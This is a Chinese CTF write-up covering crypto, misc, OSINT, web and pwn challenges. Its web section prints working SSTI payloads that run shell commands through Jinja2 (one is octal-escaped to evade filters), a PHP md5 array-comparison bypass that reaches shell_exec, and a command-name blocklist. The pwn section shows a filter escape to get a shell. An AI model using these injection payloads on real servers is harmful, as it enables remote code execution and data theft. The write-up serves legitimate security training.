# 第二届CN-fnst::CTF WriteUp(web,misc,crypto,osint,pwn)-先知社区

> **来源**: https://xz.aliyun.com/news/16415  
> **文章ID**: 16415

---

# 第二届CN-fnst::CTF--你说啥--WriteUp

## Crypto

### 1.签到

得到附件  
  
感觉像是文本隐写，在线0宽字符解密：<https://330k.github.io/misc_tools/unicode_steganography.html>  


成功得到flag:flag{H@v3\_fUn}

### 2.ezCrypto

e = 65537  
n = 1455925529734358105461406532259911790807347616464991065301847  
c = 69380371057914246192606760686152233225659503366319332065009

这里典型的RSA加密，由于n很小，可以直接分离出来p，q  
这里使用yafu  


成功分离  
p=1201147059438530786835365194567  
q=1212112637077862917192191913841

然后正常rsa解密即可

```
from Crypto.Util.number import long_to_bytes
from sympy import mod_inverse

# 给定参数
e = 65537
n = 1455925529734358105461406532259911790807347616464991065301847
c = 69380371057914246192606760686152233225659503366319332065009
p=1201147059438530786835365194567
q=1212112637077862917192191913841


# 计算 φ(n)
phi_n = (p - 1) * (q - 1)

# 计算 d, 使得 (d * e) % φ(n) = 1
d = mod_inverse(e, phi_n)

# 解密：m = c^d % n
m = pow(c, d, n)

# 输出解密结果
print(f"解密后的明文是：{m}")
print(long_to_bytes(m))

```



得到flag:flag{fact0r\_sma11\_N}

### 3.神秘dp

得到了数据  
e = 65537

n = 13851998696110232034312408768370264747862778787235362033287301947690834384177869107768578977872169953363148442670412868565346964490724532894099772144625540138618913694240688555684873934424471837897053658485573395777349902581306875149677867098014969597240339327588421766510008083189109825385296069501377605893298996953970043168244444585264894721914216744153344106498382558756181912535774309211692338879110643793628550244212618635476290699881188640645260075209594318725693972840846967120418641315829098807385382509029722923894508557890331485536938749583463709142484622852210528766911899504093351926912519458381934550361  
dp = 100611735902103791101540576986246738909129436434351921338402204616138072968334504710528544150282236463859239501881283845616704984276951309172293190252510177093383836388627040387414351112878231476909883325883401542820439430154583554163420769232994455628864269732485342860663552714235811175102557578574454173473

c = 6181444980714386809771037400474840421684417066099228619603249443862056564342775884427843519992558503521271217237572084931179577274213056759651748072521423406391343404390036640425926587772914253834826777952428924120724879097154106281898045222573790203042535146780386650453819006195025203611969467741808115336980555931965932953399428393416196507391201647015490298928857521725626891994892890499900822051002774649242597456942480104711177604984775375394980504583557491508969320498603227402590571065045541654263605281038512927133012338467311855856106905424708532806690350246294477230699496179884682385040569548652234893413

是常见考点dp泄露：有现成的板子：附上链接：<https://blog.csdn.net/qq_74350234/article/details/142992243>



这里直接把数据一换  


结果是个原题，当时还以为数据抄错了。。  
得到flag:flag{dp\_i5\_1eak}

### 4.math

得到附件：


这个地方，我还是选择了分离出p,q 利用在线工具：<https://factordb.com/>  
  
成功分离：

```
p = 24440283427735860782323152407294917357529111353275570975703531438440519660225708967888657253644278000783263820558388701592370615088140947096898134081330591301984360290318641970617489021626752360815885812583176251873031239638493762071047588297627032203293985708994218852662838640238623254740905447146670999830187552717802257362427107073858485019955606331947972091793616373347825119600328855885246072890798551616534636247023983959037046475229361825549780845049341719145179099452625523855259198581865855234803188298849910863377098140158406245399677912502444220011884063994451182221171275547685147549629637310805120817903
q = 30246942489892106712702239024133721453592842183923733460515110118344404699532017493383428137697227815754741688919151294652492006534840589468962295623069884232619077280815851563195685517196295248643553001644121714958636538938848623892827992267767358030468030240236589927767000556188518269847757669474128501561192367465343050094302650720121351543751423298130335191141395620744634566228434135430114855211983270131333333081108536699301711234514426855659414263828163630092200163488598896179597996128556748173083374014319100056717308084410389660477779719495877439609162161870536882293104016630319703274657500915447940613453

```

现在就是正常的解密了，附上代码：

```
from Crypto.Util.number import long_to_bytes
from sympy import mod_inverse

# 给定参数
p = 24440283427735860782323152407294917357529111353275570975703531438440519660225708967888657253644278000783263820558388701592370615088140947096898134081330591301984360290318641970617489021626752360815885812583176251873031239638493762071047588297627032203293985708994218852662838640238623254740905447146670999830187552717802257362427107073858485019955606331947972091793616373347825119600328855885246072890798551616534636247023983959037046475229361825549780845049341719145179099452625523855259198581865855234803188298849910863377098140158406245399677912502444220011884063994451182221171275547685147549629637310805120817903
q = 30246942489892106712702239024133721453592842183923733460515110118344404699532017493383428137697227815754741688919151294652492006534840589468962295623069884232619077280815851563195685517196295248643553001644121714958636538938848623892827992267767358030468030240236589927767000556188518269847757669474128501561192367465343050094302650720121351543751423298130335191141395620744634566228434135430114855211983270131333333081108536699301711234514426855659414263828163630092200163488598896179597996128556748173083374014319100056717308084410389660477779719495877439609162161870536882293104016630319703274657500915447940613453
e = 65537
c = 229043746793674889024653533006701296308351926745769842802636384094759379740300534278302123222014817911580006421847607123049816103885365851535481716236688330600113899345346872012870482410945158758991441294885546642304012025685141746649427132063040233448959783730507539964445711789203948478927754968414484217451929590364252823034436736148936707526491427134910817676292865910899256335978084133885301776638189969716684447886272526371596438362601308765248327164568010211340540749408337495125393161427493827866434814073414211359223724290251545324578501542643767456072748245099538268121741616645942503700796441269556575769250208333551820150640236503765376932896479238435739865805059908532831741588166990610406781319538995712584992928490839557809170189205452152534029118700150959965267557712569942462430810977059565077290952031751528357957124339169562549386600024298334407498257172578971559253328179357443841427429904013090062097483222125930742322794450873759719977981171221926439985786944884991660612824458339473263174969955453188212116242701330480313264281033623774772556593174438510101491596667187356827935296256470338269472769781778576964130967761897357847487612475534606977433259616857569013270917400687539344772924214733633652812119743
n = 739243847275389709472067387827484120222494013590074140985399787562594529286597003777105115865446795908819036678700460141950875653695331369163361757157565377531721748744087900881582744902312177979298217791686598853486325684322963787498115587802274229739619528838187967527241366076438154697056550549800691528794136318856475884632511630403822825738299776018390079577728412776535367041632122565639036104271672497418509514781304810585503673226324238396489752427801699815592314894581630994590796084123504542794857800330419850716997654738103615725794629029775421170515512063019994761051891597378859698320651083189969905297963140966329378723373071590797203169830069428503544761584694131795243115146000564792100471259594488081571644541077283644666700962953460073953965250264401973080467760912924607461783312953419038084626809675807995463244073984979942740289741147504741715039830341488696960977502423702097709564068478477284161645957293908613935974036643029971491102157321238525596348807395784120585247899369773609341654908807803007460425271832839341595078200327677265778582728994058920387721181708105894076110057858324994417035004076234418186156340413169154344814582980205732305163274822509982340820301144418789572738830713925750250925049059

# 计算 φ(n)
phi_n = (p - 1) * (q - 1)

# 计算 d, 使得 (d * e) % φ(n) = 1
d = mod_inverse(e, phi_n)

# 解密：m = c^d % n
m = pow(c, d, n)

# 输出解密结果
print(f"解密后的明文是：{m}")
print(long_to_bytes(m))

```

  
得到flag:flag{77310934-21fa-4ee4-a783-dc1865ebab28}

### 5.base1024

得到附件

利师迩鉴石碣遥逍汉玄珍覆穑碣云罗侈平同此竹岱饭乎见槐洛五伦璧策缘芸武秦伤阮空创欲雁刻分超任策迩释机于焉笃僚施迩姿植沙疫书曲亲零零零

根据题目的名字，搜到了这篇csdn文章：<https://blog.csdn.net/qq_15991191/article/details/120555399>



直接现成的脚本，拿过来即可：



得到flag:flag{脑洞竞技 代码逆向 漏洞挖掘 团队协作 密码破译 云端对决}

### 6.不要忘记仰望星空

得到附件，先是



随波逐流选择社会主义核心观解密  


得到盲文，在选择盲文解密  


⡳u897f⡳u5929⡳u53d6⡳u7ecf⡳u7684⡳u5510⡳u4e09⡳u85cf⡳uff0c⡳u00a⡳u795e⡳u79d8⡳u800c⡳u6709⡳u80fd⡳u529b⡳u7684⡳u5b59⡳u609f⡳u7a7a⡳uff0c⡳u00a⡳u603b⡳u60f3⡳u6253⡳u9000⡳u5802⡳u9f13⡳u7684⡳u732a⡳u516b⡳u6212⡳uff0c⡳u00a⡳u8d1f⡳u8d23⡳u80cc⡳u884c⡳u674e⡳u7684⡳u6c99⡳u50e7⡳uff0c⡳u00a⡳u4e2d⡳u9014⡳u52a0⡳u5165⡳u7684⡳u767d⡳u9f99⡳u9a6c⡳uff0c⡳u00a⡳u00a⡳u5bf9⡳u4e86⡳uff0c⡳u8fd8⡳u6709⡳u90a3⡳u6839⡳u8d8a⡳u6765⡳u8d8a⡳u957f⡳u7684⡳u5982⡳u610f⡳u91d1⡳u7b8d⡳u68d2⡳u00a⡳u00a⡳u2014⡳u2014⡳u300a⡳u0066⡳u006c⡳u0061⡳u0067⡳u300b  
这个看着就是**Unicode 字符编码** ，将⡳替换成\


\u897f\u5929\u53d6\u7ecf\u7684\u5510\u4e09\u85cf\uff0c\u00a\u795e\u79d8\u800c\u6709\u80fd\u529b\u7684\u5b59\u609f\u7a7a\uff0c\u00a\u603b\u60f3\u6253\u9000\u5802\u9f13\u7684\u732a\u516b\u6212\uff0c\u00a\u8d1f\u8d23\u80cc\u884c\u674e\u7684\u6c99\u50e7\uff0c\u00a\u4e2d\u9014\u52a0\u5165\u7684\u767d\u9f99\u9a6c\uff0c\u00a\u00a\u5bf9\u4e86\uff0c\u8fd8\u6709\u90a3\u6839\u8d8a\u6765\u8d8a\u957f\u7684\u5982\u610f\u91d1\u7b8d\u68d2\u00a\u00a\u2014\u2014\u300a\u0066\u006c\u0061\u0067\u300b

在经过随波逐流解码：



经过提示，搜到了这句话的来源：



还是豆包好！！！  
得到flag:flag{宇宙探索编辑部}

## WEB

### 1.ez\_python



这里提示读东西，通过get参数，这里是猜出来的：?file=app.py 因为



python的嘛，就直接猜出来了：



得到源码，分析之后，发现在路由/shell里面存在SSTI模板注入，然后还限制了访问速率，这里直接手搓，经过测试，能够成功执行，然后通过八进制转义执行，成功注入

```
payload:/shell?name={%print%0a(lipsum|attr(%22\137\137\147\154\157\142\141\154\163\137\137%22))|attr(%22\137\137\147\145\164\151\164\145\155\137\137%22)(%22\137\137\142\165\151\154\164\151\156\163\137\137%22)|attr(%22\137\137\147\145\164\151\164\145\155\137\137%22)(%22\145\166\141\154%22)(%22\137\137\151\155\160\157\162\164\137\137\050\047\157\163\047\051\056\160\157\160\145\156\050\047\143\141\164\040\146\061\141\147\137\110\063\162\145\061\061\047\051\056\162\145\141\144\050\051\012%22)%}

```



这个地方的flag不在根目录，所以可以使用env得到flag,也可以用ls一级一级的查找flag的名字



成功获得flag！

### 2.comment\_me

访问地址  


这里先随便点击功能点：然后抓包  


```
POST /modify HTTP/1.1
Host: ctf.mardle.cn:34933
Content-Length: 115
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://ctf.mardle.cn:34933
Referer: http://ctf.mardle.cn:34933/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cookie: qwer=fVr01Cqpf1ZBBgOQ
Connection: close

h2=1&p=%E5%85%A5%E5%A4%9C%E5%88%86%E6%98%8E%E8%A7%81%EF%BC%8C%E6%97%A0%E9%A3%8E%E6%B3%A2%E6%B5%AA%E7%8B%82%E3%80%82
```

经过测试，发现参数p存在ssti注入  
但是他过滤了. 所以我们需要绕过，绕过方法：在payload中点（.）是可以用中括号([])来代替的，但是中括号中的内容必须要用引号包裹

所以正常的payload应该是：

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

```

经过变换：

```
{{config["__class__"]["__init__"]["__globals__"]["os"]["popen"]('ls')["read"]()}}

```

传入payload:  


刷新页面，看到命令成功执行  


执行env,获得flag:



flag:flag{b59057fe-b750-4684-b780-441623633fc7}

### 3.ezphp

访问得到代码：

```
<?php
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['usn']) && isset($_POST['pwd']) && isset($_GET['usn1']) && isset($_POST['pwd1']) ){
    $usn = $_GET['usn'];
    $usn1 = $_GET['usn1'];
    $pwd = $_POST['pwd'];
    $pwd1 = $_POST['pwd1'];
    if ($usn != $pwd && md5($usn) == md5($pwd)){
        if ($usn1 !== $pwd1 && md5($usn1) === md5($pwd1)){
            $sign = isset($_GET['sign']) && !empty($_GET['sign']) ? $_GET['sign'] : '';
            $forbidden_commands = ['cat', 'tac', 'nl', 'more', 'less', 'head', 'tail', 'read'];
            $sign_lower = strtolower($sign);
            foreach ($forbidden_commands as $forbidden) {
                if (strpos($sign_lower, $forbidden) !== false) {
                    die('lol');
                }
            }
            if (empty($sign)) {
                die('lol');
            }
            try {
                $output = shell_exec(escapeshellcmd($sign));
                echo "<pre>$output</pre>";
            } catch (ValueError $e) {
                echo "lol";
            }
        }
        else{
            echo "lol";
        }
    }
    else {
        echo "lol";
    }

}
else {
    echo 'lol';
}
?>

```

其实是挺简单的绕过，因为这里所有的== 或者 === 都没有限制强制(string)所以都可以用数组进行绕过，然后命令执行，虽然禁了读文件的命令，但是env还是可以用。这里直接给出payload

```
pyload:
GET 
?usn[]=1&usn1[]=1&sign=env
POST
pwd[]=2&pwd1[]=2

```



得到flag

## MISC

### 1.sign in

得到附件：  


这里看起来很像，图片经过base64编码之后的文件前面会有的格式，又根据提示：你知道罗马共和国独裁官吗 其实是凯撒大帝，凯撒密码，写个脚本爆破一下

```
import base64
from PIL import Image
from io import BytesIO


# 凯撒密码解密函数
def caesar_decrypt(ciphertext, shift):
    decrypted_text = ""
    for char in ciphertext:
        if char.isalpha():
            shift_base = 65 if char.isupper() else 97  # 判断字母是大写还是小写
            decrypted_text += chr((ord(char) - shift_base - shift) % 26 + shift_base)
        else:
            decrypted_text += char
    return decrypted_text


# 读取加密文本
def read_encrypted_text(file_path):
    with open(file_path, 'r') as file:
        return file.read()


# 解密函数，直到找到目标字符
def decrypt_until_found(encrypted_text, target):
    shift = 0
    while shift < 26:  # 偏移量最大为26（循环一圈）
        decrypted_text = caesar_decrypt(encrypted_text, shift)
        if decrypted_text.startswith(target):  # 检查开头是否包含目标字符
            return decrypted_text, shift
        shift += 1
    return None, None  # 如果没有找到


# 将Base64数据保存为图片
def save_base64_as_image(base64_data, output_image_path):
    # 去掉 "data:image/png;base64," 前缀
    if base64_data.startswith("data:image/png;base64,"):
        base64_data = base64_data[len("data:image/png;base64,"):]

    # 解码Base64数据
    image_data = base64.b64decode(base64_data)

    # 使用PIL库将字节数据转换为图像
    image = Image.open(BytesIO(image_data))

    # 保存图片
    image.save(output_image_path)
    print(f"图片已保存为：{output_image_path}")


# 主程序
def main():
    file_path = "C:\\Users\\Administrator\\Downloads\\qiandao.txt"  # 加密文本文件路径
    target = 'data'  # 你想要查找的目标字符

    # 读取加密文本
    encrypted_text = read_encrypted_text(file_path)

    # 尝试解密直到找到目标字符
    decrypted_text, shift = decrypt_until_found(encrypted_text, target)

    if decrypted_text:
        print(f"解密成功! 偏移量是: {shift}")
        print(f"解密后的文本: \n{decrypted_text}")

        # 假设解密后的文本是Base64编码的图片数据
        try:
            save_base64_as_image(decrypted_text, 'output_image.png')
        except Exception as e:
            print(f"处理图片时发生错误: {e}")
    else:
        print("未找到目标字符。")


if __name__ == "__main__":
    main()

```



然后看保存的图片：  


经过不懈努力，找到一个在线网站解密：<http://tools.h3399.cn/aideddesign/img_add_info.html>



成功解密！！！  
flag：flag{wobushinailong\_woshihuangdou}

### 2.简简单单

下载得到附件：



一长串，直接扔给厨子



还是老样子社会主义核心价值观解密，随波逐流开始嗦！！！！



将得到的字符串又扔给厨子：



得到一堆表情，在此网站上解密：<http://www.atoolbox.net/Tool.php?Id=937>



得到字符串  
63396739637463706B6C67646B6C6B6867466B68637063356F6C6F35674A63686F396339637063746B4667686B42676863356B35636863706F356B6C673563746B6867786B746F3973426F6C67686F6463646B78633973317342636C6F426F686778734273426F356B64677063686F7073356B706B467342674A73786B6C7374675273397374734267646778676863786756676463646F4A6F5273356B3567786B426F526368674A67787342674A6F6C0A  
老样子扔给厨子  


c9g9ctcpklgdklkhgFkhcpc5olo5gJcho9c9cpctkFghkBghc5k5chcpo5klg5ctkhgxkto9sBolghodcdkxc9s1sBcloBohgxsBsBo5kdgpchops5kpkFsBgJsxklstgRs9stsBgdgxghcxgVgdcdoJoRs5k5gxkBoRchgJgxsBgJol  
经过提示是base62,但是随波逐流还是其他地方的base62解码都不对，最后，在上面解表情的网站里面找到了解base62的工具  
<https://www.a.tools/Tool.php?Id=120>  


得到字符串：

2B76UCUTJT61eaK4b267ZDYD1Q46aUA7THWbyeDc3X2py5idHyyaSF4fqVZyKxUwMrwyCHD8NC3kmqQHYm4KHyKe  
扔给随波逐流：



把base58解码结果提出来，在进行解密：



得到flag：  
flag{8yvLhxrd1k0ap0df}

### 3.烟①

先下载得到附件：用bandzip打开：

  
这里是存在注释的，但是由于文本隐写看不见，我们全选复制到txt中，即可察觉到  


所以保存到txt中，利用b神的工具一把梭  


老样子，佛说解密：


得到解压密码：qiuqiugeweishaochouyan



得到两个文件，由于health.exe是python打包而成的，这个从图标能看出来，然后我们将exe反编译成py文件

在线网站：<https://pyinstxtractor-web.netlify.app/>  


成功得到，注意此pyc文件：![image-20241215010245024]  


我们找个pyc在线反编译：<https://www.lddgo.net/string/pyc-compile-decompile>



成功反编译  
代码：

```
# Visit https://www.lddgo.net/string/pyc-compile-decompile for more information
# Version : Python 3.9

import tkinter as tk
from tkinter import messagebox
import zipfile
import os

def check_inputs():
    inputs = [
        entry1.get(),
        entry2.get(),
        entry3.get(),
        entry4.get(),
        entry5.get(),
        entry6.get()]
    correct_numbers = [
        '6',
        '0.6',
        '7',
        '84',
        '20',
        '16']
# WARNING: Decompyle incomplete


def create_gui():
    global entry1, entry2, entry3, entry4, entry5, entry6
    root = tk.Tk()
    root.title('客官需要点什么?')
    root.minsize(300, 200)
    frame = tk.Frame(root)
    frame.pack(True, 'both', **('expand', 'fill'))
    labels = [
        '焦:',
        '碱:',
        '碳:',
        '长:',
        '支:',
        '价:']
    entries = []
    for i, label_text in enumerate(labels):
        label = tk.Label(frame, label_text, **('text',))
        label.grid(i, 0, 10, 5, tk.E, **('row', 'column', 'padx', 'pady', 'sticky'))
        entry = tk.Entry(frame)
        entry.grid(i, 1, 10, 5, **('row', 'column', 'padx', 'pady'))
        entries.append(entry)
    (entry1, entry2, entry3, entry4, entry5, entry6) = entries
    submit_button = tk.Button(frame, '提交', check_inputs, **('text', 'command'))
    submit_button.grid(len(labels), 0, 2, 10, **('row', 'column', 'columnspan', 'pady'))
    frame.grid_rowconfigure(len(labels), 1, **('weight',))
    frame.grid_columnconfigure(1, 1, **('weight',))
    root.mainloop()

if __name__ == '__main__':
    create_gui()

```



根据代码内容依次输入

​ '6',  
​ '0.6',  
​ '7',  
​ '84',  
​ '20',  
​ '16'  
即可



得到一个flag.txt  




直接base64,得到图片文件数据  


导入到010中生成图片文件



这里根据提示，找到了最后一个数据块，缺少PNG头文件，提取出来，补全以后，爆破宽高然后倒转  


这里再根据提示，公众号恶意引流：在微信上搜索：NameError\_P



得到之后：



成功获得flag：flag{AttributeError\_Ghost}

## Forensics

### 1.签到



下载附件得到照片  


从中可用很明显的看到对应的信息，第一个是成都春熙路的熊猫，第二个是宽窄巷子，第三个是成都宽窄巷子蜀韵园

所以得到flag:flag{成都宽窄巷子蜀韵园}

### 2.①



下载附件后发现是谷歌街景图，仔细审查该图信息后发现左上角有一个泰国的修车店，通过谷歌识图找到该修车店名字后直接在谷歌地图里面查找最后找到该图位置  
  


<https://www.google.com/maps/place/%E0%B9%80%E0%B8%AD%E0%B8%AA.%E0%B8%8B%E0%B8%B5.%E0%B8%AD%E0%B8%AD%E0%B9%82%E0%B8%95%E0%B9%89%E0%B9%81%E0%B8%AD%E0%B8%A3%E0%B9%8C/@14.3526061,100.5380684,3a,90y,308.44h,68.32t/data=!3m7!1e1!3m5!1sUoFes8mqVYlVAw9uEBDs_g!2e0!6shttps:%2F%2Fstreetviewpixels-pa.googleapis.com%2Fv1%2Fthumbnail%3Fcb_client%3Dmaps_sv.tactile%26w%3D900%26h%3D600%26pitch%3D21.680000000000007%26panoid%3DUoFes8mqVYlVAw9uEBDs_g%26yaw%3D308.44!7i13312!8i6656!4m7!3m6!1s0x30e275bddb24f595:0x15f9a89b61d0c26d!8m2!3d14.352488!4d100.5375602!10e5!16s%2Fg%2F11j2wxmyd3?entry=ttu&g_ep=EgoyMDI0MTIxMS4wIKXMDSoASAFQAw%3D%3D>

得到经纬度：14.352,100.538

经过md5 32位小写即可

#### ②



思路相同下载附件后发现同样是一个谷歌街景图，但该图特征明显存在一个雕像，直接在谷歌识图中查询该雕像名为Pamyatnik Patriarkhu Germogenu

然后在地图中搜索该名后在附件查找最终发现该地的位置

<https://www.google.com/maps/@55.7542939,37.6137361,2a,90y,121.84h,106.59t/data=!3m7!1e1!3m5!1s-KEVXRR-eKCDkmfy_iyQww!2e0!6shttps:%2F%2Fstreetviewpixels-pa.googleapis.com%2Fv1%2Fthumbnail%3Fcb_client%3Dmaps_sv.tactile%26w%3D900%26h%3D600%26pitch%3D-16.590000000000003%26panoid%3D-KEVXRR-eKCDkmfy_iyQww%26yaw%3D121.84!7i13312!8i6656?entry=ttu&g_ep=EgoyMDI0MTIxMS4wIKXMDSoASAFQAw%3D%3D>


得到经纬度：55.754,37.613

老样子加密包裹即可

#### ④





这里我们能得到一些信息，一是这里是平原，二是这里有一座桥，然后这里的河流虽然没水，但是依旧会存在河床，三是第二张图片存在一个小房子，但是为了确定大致的地方，这里直接让ai进行判断



这里确定了蒙古国，为什么不是中国，因为第一张图片的路牌，虽然看不见，但是能依稀辨认不是汉字，所以得到区域是在蒙古国  
这里搜索了下，蒙古国的平原一般在哪里：





大致确定在一块，现在就是找河流，然后看河流沿线上的公路，  


看见了一个湖泊，现在这里找找，终于在这一块看到了类似的地形



经过不懈努力，终于找到了一条横穿河流的公路：


进入全景：


成功找到！！！！

<https://www.google.com/maps/@45.810734,101.905646,3a,75y,357.12h,84.53t/data=!3m7!1e1!3m5!1sYCAG8YtdKZKE0IvPEIYqXg!2e0!6shttps:%2F%2Fstreetviewpixels-pa.googleapis.com%2Fv1%2Fthumbnail%3Fcb_client%3Dmaps_sv.tactile%26w%3D900%26h%3D600%26pitch%3D5.47146614888473%26panoid%3DYCAG8YtdKZKE0IvPEIYqXg%26yaw%3D357.1183653698236!7i16384!8i8192?hl=zh-cn&entry=ttu&g_ep=EgoyMDI0MTIxMS4wIKXMDSoASAFQAw%3D%3D>

成功得到经纬度：45.810,101.905  
其实也是花了两三个小时一直看出来的，图寻 wtfuck!!!

## PWN

### 1.真“签到”

先下载附件分析：



直接main函数的代码：



这里让用户输入，并执行输入的，我们首先要获得一个shell,这里因为是直接匹配字符，利用转义即可绕过  
输入：s\h  
即可



这里就是了。
